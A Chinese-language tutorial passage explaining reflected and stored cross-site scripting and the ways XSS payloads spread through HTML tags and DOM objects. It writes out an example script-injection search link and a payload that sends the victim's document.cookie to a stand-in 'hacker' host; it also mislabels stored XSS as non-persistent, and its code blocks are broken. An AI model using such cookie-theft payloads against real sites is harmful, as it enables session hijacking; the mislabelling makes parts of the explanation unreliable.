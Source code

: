 所以可以理解为，是用户构建的一次性的反射XSS , 一般出现在 **get型的搜索页面** 中。因为用户提交的搜索内容，会再次的出现在了页面之中。座椅这样被可以出发了，XSS。

当然，反射型的 XSS 在进行构造之后通过用户点击进行触法，多半用于phishing 的过程之中。

eg:在存在反射型的XSS 的时候可以构造如下链接形式：

    http://victim/search.pl?search=test+search+[payload]
    ”><SCRIPT>alert(‘XSS%20Testing’)</SCRIPT>

这样我们的 payload 就出现在了搜索结果的页面中去，所以就可以被触发。

一般用于钓鱼链接，当然一旦有了入口就可以实现更加复杂的功能了。

使用如下的payload

```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;

    
    这样就构造了一个DOM的对象，就向目标网站提交了用户的 cookies。（当然也可使用 ajax 进行高级操作）。
    
    ------
    
    非持久型XSS，这一类的XSS 就是危害比较大的类型，多存在于留言板之类用于存储并且显示用户输入的地方。用户输入的内容没有经过严格的检测，导致直接在页面上被加载以及解析，导致访问该页面的用户都受到影响。
    
    危害性往往的是高于非持久性的。具体的利用细节，实际上也是对过滤进行 bypass ， 之后注入js 等待用户的触发。
    
    ## XSS 的传播方法
    
    > XSS 蠕虫病毒可能会使 得浏览器进行发送电子邮件，转账，删除/修改数据，入侵其他网站，下载非法内容，以及许多其他形式的恶意活动。 用最简单的方式去理解，就是如果没有适当的防御，在网站上的任何功能都可以在未经用户许可的情况下运行。
    
    ------
    
    XSS 的漏洞被利用在传播的时候，通常是 `HTML/Javascript`的代码。使用 
    
    - 嵌入的HTML标签
    - JavaScript DOM的对象
    - XMLHTTPRequest（XHR）
    
    ------
    
    ### 嵌入的HTML标签
    
    一些html的标签，可以在加载的时候去请求非同源的资源。比如，img 的图像标签便可以实现这样的一个功能。
    
    使用 img 的src属性可以在加载页面的时候，对远程的主机进行请求。
    
    ```html
    <img src=”http://www.google.com/search?hl=en&q=whitehat+security&btnG=Google+Search”>

在上面的请求里面，知识进行了一次对 google 的请求，当然，这里的地址便可以模拟一次用户的请求，比如：增加删除好友。这是一个 get 的请求，当然也可以通过get 的方式向，目标主机传递当前的数据。

* * *

### JavaScript 和 DOM

`DOM = document object model` 这里一样可以使用DOM对象，实现一个对非同源站点的请求。

    var img = new Image();
    img.src = "http://www.google.com/search?hl=en&q=whitehat+security&btnG=Google+Search"

通过改变图像的src属实现去其他的请求。

### XmlHttpRequest (XHR)

```